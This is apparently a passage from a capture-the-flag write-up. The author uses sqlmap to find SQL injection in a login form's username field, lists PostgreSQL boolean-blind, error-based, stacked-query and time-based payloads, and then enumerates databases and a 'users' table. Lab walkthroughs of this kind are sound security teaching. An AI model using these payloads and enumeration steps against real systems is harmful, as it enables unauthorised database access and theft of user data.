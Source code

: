 ```

oxdf@parrot$ sqlmap -r login.request --force-ssl --batch
...[snip]...
sqlmap identified the following injection point(s) with a total of 95 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: username=admin' AND (SELECT (CASE WHEN (1539=1539) THEN NULL ELSE CAST((CHR(116)||CHR(65)||CHR(89)||CHR(71)) AS NUMERIC) END)) IS NULL AND 'ITbh'='ITbh&password=admin

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=admin' AND 1461=CAST((CHR(113)||CHR(112)||CHR(113)||CHR(120)||CHR(113))||(SELECT (CASE WHEN (1461=1461) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(112)||CHR(112)||CHR(113)) AS NUMERIC) AND 'ZWWH'='ZWWH&password=admin

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=admin';SELECT PG_SLEEP(5)--&password=admin

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=admin' AND 4799=(SELECT 4799 FROM PG_SLEEP(5)) AND 'Cmys'='Cmys&password=admin
---
[14:00:35] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP 7.3.14
back-end DBMS: PostgreSQL
...[snip]...

```

I’ll add `--dbs` to the end of the command and run it again to list the dbs:

```

available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public

```

`sqlmap -r login.request --force-ssl --batch -D public --tables` will list the tables in public, finding one:

```

Database: public
[1 table]
+-------+
| users |
+-------+

```
